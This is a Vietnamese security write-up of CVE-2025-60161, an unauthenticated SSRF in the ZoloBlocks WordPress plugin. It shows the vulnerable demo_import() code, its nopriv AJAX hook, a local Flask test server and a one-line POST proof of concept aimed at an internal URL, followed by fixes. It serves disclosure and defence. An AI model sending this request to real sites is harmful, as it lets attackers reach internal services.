 # CVE-2025-60161 Analysis & POC


<!--more-->

## CVE & Basic Info
Lỗ hổng Server-Side Request Forgery (SSRF) trong BdThemes ZoloBlocks cho phép kẻ tấn công thực hiện yêu cầu giả mạo từ phía máy chủ. Sự cố này ảnh hưởng đến các phiên bản ZoloBlocks từ không xác định cho đến 2.3.11.

* **CVE ID**: [CVE-2025-60161](https://www.cve.org/CVERecord?id=CVE-2025-60161)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.3.11
* **Patched Versions**: 2.3.12
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress ZoloBlocks Plugin](https://wordpress.org/plugins/zoloblocks/advanced/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **ZoloBlocks**: **2.3.11** (vulnerable) và **2.3.12** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

Lỗ hổng này xuất hiện trong tệp `TemplatesV1.php`, tuy nhiên tệp này đã bị loại bỏ trong phiên bản vá lỗi.

![Diff](removed.png "TemplatesV1.php đã bị loại bỏ trong bản vá")

### Vulnerable Code 
```php {title="TemplatesV1.php - v2.3.11" hl_lines=[12]}
public function demo_import() {
    // Kiểm tra tham số đầu vào từ POST
    if (!isset($_POST['json_file_url'])) {
        wp_send_json_error('No JSON file URL provided');
        return;
    }

    // Lấy và làm sạch URL người dùng cung cấp
    $json_file_url = sanitize_text_field(wp_unslash($_POST['json_file_url']));

    // Gửi yêu cầu HTTP đến URL đó
    $response = wp_remote_get($json_file_url, ['timeout' => 30]);

    // Nếu lỗi khi fetch dữ liệu, trả JSON lỗi
    if (is_wp_error($response)) {
        wp_send_json_error('Failed to fetch JSON data');
        return;
    }

    // Lấy nội dung phản hồi và giải mã JSON
    $body    = wp_remote_retrieve_body($response);
    $data    = json_decode($body, true);
    $content = $data['content'] ?? '';

    // Trả kết quả JSON thành công cùng nội dung import
    wp_send_json_success([
        'status'   => 'success',
        'message'  => __('Pattern imported successfully!', 'zoloblocks'),
        'content'  => $content,
    ]);
}
```

{{< admonition bug >}}
Hàm `demo_import()` nhận URL từ người dùng => gửi yêu cầu HTTP (`wp_remote_get`) để tải dữ liệu JSON → giải mã và trả về kết quả qua `wp_send_json_success()`.
Vì không kiểm tra hoặc giới hạn URL, nên có thể bị lợi dụng gây **SSRF**.
{{< /admonition >}}

Hàm `demo_import()` được đăng kí làm callback cho action hook:

```php
add_action('wp_ajax_nopriv_zolo_demo_import', [$this, 'demo_import']);
```

Điều này có nghĩa là:

* Hook `wp_ajax_nopriv_` được sử dụng cho **người dùng chưa đăng nhập** (anonymous users).
* Khi client gửi request AJAX đến endpoint `admin-ajax.php?action=zolo_demo_import`, WordPress sẽ gọi hàm `demo_import()`.

### Flow

{{< mermaid >}}
graph TD
A["admin-ajax.php?action=zolo_demo_import"] --> B["wp_ajax_nopriv_zolo_demo_import"]
B --> C["demo_import()"]
C --> D["sanitize_text_field()"]
D --> E["wp_remote_get(json_file_url)"]
E --> F{"is_wp_error(response)?"}
F -- Yes --> G["wp_send_json_error()"]
F -- No --> H["json_decode(body) → extract URLs"]
H --> I["wp_send_json_success()"]
{{< /mermaid >}}

## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=zolo_demo_import&json_file_url=http://127.0.0.1:8001/metadata
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")

## Conclusion

CVE-2025-60161 là một SSRF trong `demo_import()` của ZoloBlocks (≤ 2.3.11) do nhận URL từ người dùng và gọi `wp_remote_get()` mà không kiểm tra. Endpoint cho phép truy cập không xác thực (`wp_ajax_nopriv_...`). Vấn đề đã được vá trong **2.3.12**.

## Key takeaways

* Nguyên nhân: không validate/whitelist URL trước khi `wp_remote_get()`.
* Ảnh hưởng: site chạy ZoloBlocks ≤ 2.3.11; attacker có thể truy vấn dịch vụ nội bộ (SSRF).
* Khắc phục nhanh: cập nhật lên **2.3.12** hoặc chặn endpoint `zolo_demo_import`.
* Phòng ngừa: whitelist/validate URL, giới hạn egress, bảo vệ AJAX bằng nonce/quyền.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress ZoloBlocks Plugin <= 2.3.11 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/zoloblocks/vulnerability/wordpress-zoloblocks-plugin-2-3-9-server-side-request-forgery-ssrf-vulnerability?_s_id=cve) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-31-cve-2025-60161/  

